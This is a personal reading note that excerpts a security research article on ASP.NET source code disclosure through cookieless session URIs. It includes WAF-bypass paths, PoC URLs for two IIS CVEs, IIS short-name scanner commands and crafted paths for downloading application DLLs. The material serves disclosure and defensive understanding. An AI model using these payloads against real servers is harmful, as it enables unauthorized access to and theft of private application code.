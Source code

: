 ```yaml
---
author: Arseniy Sharoglazov
aliases:
  - Source Code Disclosure in ASP.NET Apps
tags:
  - readwise/articles
  - dotnet
  - cookieless-session
url: https://swarm.ptsecurity.com/source-code-disclosure-in-asp-net-apps/?__readwiseLocation=
date: 2024-08-22
---
```

# Source Code Disclosure in ASP.NET Apps

![rw-book-cover](https://swarm.ptsecurity.com/wp-content/uploads/2024/02/8fdda128-preview-2.png)

## Environment

It looked like my application was written in C# on the [dotNET](../../Dev,%20ICT%20&%20Cybersec/Dev,%20scripting%20&%20OS/dotNET.md) platform, was functioning under IIS, and was protected by a WAF based on nginx.

Knowing this was enough to bypass the 403 error:
![](https://swarm.ptsecurity.com/wp-content/uploads/2024/03/8cae72a2-403-bypass.png)
*The content of the “/login.aspx” page after bypassing the WAF (via a cookieless session)*

## Cookieless Sessions in ASP.NET

When you enable the ASP.NET feature in IIS, any page of the server starts accepting cookieless sessions. Here are different formats of these *cookieless sessions*:

| **.NET Version** | **URI**                    |
| ---------------- | -------------------------- |
| V1.0, V1.1       | /(XXXXXXXX)/               |
| V2.0+            | /(S(XXXXXXXX))/            |
| V2.0+            | /(A(XXXXXXXX)F(YYYYYYYY))/ |
| V2.0+            | …                          |
Source: [https://learn.microsoft.com/en-us/previous-versions/dotnet/articles/aa479315(v=msdn.10)](https://learn.microsoft.com/en-us/previous-versions/dotnet/articles/aa479315(v=msdn.10))

The ASP.NET cookieless sessions, along with PHP’s and Java’s analogs, have always been used for WAF bypass, session fixation, XSS, and all kinds of other attacks. [](https://read.readwise.io/read/01j5x540xtn7n0q4khdysj1bst)

Furthermore, Soroush Dalili (a.k.a. [@irsdl](https://twitter.com/irsdl)) recently discovered something new in this area: [Cookieless DuoDrop: IIS Auth Bypass & App Pool Privesc in ASP.NET Framework (CVE-2023-36899 & CVE-2023-36560)](https://soroush.me/blog/2023/08/cookieless-duodrop-iis-auth-bypass-app-pool-privesc-in-asp-net-framework-cve-2023-36899/).

Here are the POCs from Soroush Dalili’s article:

| **CVE**        | **PoC**                                                                                      |
| -------------- | -------------------------------------------------------------------------------------------- |
| CVE-2023-36899 | /WebForm/(S(X))/prot/(S(X))ected/target1.aspx  <br>/WebForm/(S(X))/b/(S(X))in/target2.aspx   |
| CVE-2023-36560 | /WebForm/pro/(S(X))tected/target1.aspx/(S(X))/  <br>/WebForm/b/(S(X))in/target2.aspx/(S(X))/ |

### Investigation

After obtaining the RCE, I was able to access the target’s `web.config` file. Then, I reduced it to the minimum possible configuration:
```xml
<?xml version="1.0" encoding="utf-8"?>
<configuration>
  <system.webServer>
    <modules runAllManagedModulesForAllRequests="true" />
  </system.webServer>
</configuration>
```

That was it. The `runAllManagedModulesForAllRequests` setting was the cause of our success.

### Scaling the POC

It quickly became clear that the technique works on other servers. The setting `runAllManagedModulesForAllRequests` isn’t rare and I was able to download a few DLLs from different websites the same day. [](https://read.readwise.io/read/01j5x57c3fnr67x82ecb9eh96r)

### Full Exploitation Algorithm

Here’s a brief guide on how to check the server on the vulnerability.

1. Check if cookieless sessions are allowed.
```
# If your application is in the main folder
/(S(X))/
/(Y(Z))/
/(G(AAA-BBB)D(CCC=DDD)E(0-1))/

# If your application is in a subfolder
/MyApp/(S(X))/
...
```

2. Optionally, use IIS-ShortName-Scanner. Note, its functionality doesn’t depend on whether cookieless sessions are enabled or not.
```bash
java -jar ./iis_shortname_scanner.jar 20 8 'https://X.X.X.X/bin::$INDEX_ALLOCATION/'
java -jar ./iis_shortname_scanner.jar 20 8 'https://X.X.X.X/MyApp/bin::$INDEX_ALLOCATION/'
```

In addition to `/bin`, I recommend you to check other special .NET folders:
```
/App_Code
/App_WebReferences
/App_GlobalResources
/App_LocalResources
/App_Data
/App_Themes
/App_Browsers
/Themes
/Views
/Models
/Controllers
```

3. Try to read DLLs. It’s necessary to reconstruct complete filenames from shortened 8.3 format filenames.
```
http://Y.Y.Y.Y/(S(x))/b/(S(x))in/MyApplicationFile.dll
http://Y.Y.Y.Y/MyApp/(S(x))/b/(S(x))in/MyApplicationFile.dll
```

The PDB files, if such exists, will not be accessible. [](https://read.readwise.io/read/01j5x588xgg46w4wmrmc2k91fj)

